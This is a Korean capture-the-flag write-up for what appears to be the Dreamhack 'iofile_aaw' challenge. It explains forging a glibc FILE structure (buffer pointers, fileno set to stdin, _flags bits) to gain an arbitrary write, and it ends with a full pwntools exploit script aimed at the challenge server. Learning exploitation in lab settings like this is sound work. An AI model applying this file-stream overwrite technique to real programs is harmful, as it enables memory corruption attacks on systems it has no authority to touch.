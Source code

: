 IO_buf_base 값은 overwrite_me 로 바꾸고, `IO_buf_end - IO_buf_base` 값은 1024 보다 큰 수로 맞춰주면 된다.   

1024보다 커야하는 이유는 `_IO_new_file_underflow` 함수에서     
`IO_buf_end - IO_buf_base` 값이 `fread` 함수의 인자로 전달된 읽을 크기보다 커야하는 조건이 있기 때문이다.   

그리고 fileno 를 기존에는 etc 경로의 특정 파일에 데이터를 읽으려했지만 지금은 표준입력으로 맞춰줘야 원하는 값을 쓸 수 있으므로 0으로 적어준다.   


```c
read(f->_fileno, _IO_buf_base, _IO_buf_end - _IO_buf_base);
/* read(0, overwrite_me, overwrite_me+1024) */
```

그리고 플래그도  

- `_IO_MAGIC` (0xfbad0000)
- `_IO_IS_FILEBUF` (0x2000)
- `_IO_TIED_PUT_GET` (0x0400)
- `_IO_LINKED` (0x0080)
- `_IO_NO_WRITES` (0x0008)

이렇게 기존에는 `_IO_UNBUFFERED` (0x0002) + `_IO_NO_READS` (0x0004) 로 읽기가 금지 되었었는데 `_IO_NO_WRITES` (0x0008) 로 읽기전용으로 바꿔주고,   

`_IO_TIED_PUT_GET` (0x0400) 를 호출하여 underflow 이후 read 시스템 콜 경로가 정상 작동하게 맞춰준다.   

이제 익스플로잇 코드를 작성해보면   

<br>


**최종 익스플로잇 코드**

```c
from pwn import *
import time

p = remote('host8.dreamhack.games', 18758)
e = ELF('./iofile_aaw')

context.arch = 'amd64'

overwrite_me = e.symbols['overwrite_me']

fake_IO = (
    p64(0xfbad2488)        # _flags
  + p64(0) * 3             
  + p64(0) * 3             
  + p64(overwrite_me)      # _IO_buf_base
  + p64(overwrite_me + 1024)  # _IO_buf_end
  + p64(0) * 3             
  + p64(0) * 2             
  + p64(0)                 # stdin
)

p.sendlineafter(b'Data: ', fake_IO)
time.sleep(1)

p.send(p64(0xDEADBEEF) + b'\x00'*1024)

p.interactive()

```


<img width="1388" height="712" alt="image" src="https://github.com/user-attachments/assets/6a075f3a-374a-4db1-8cad-720c7166e2d8" />

이렇게 답이 나왔다.
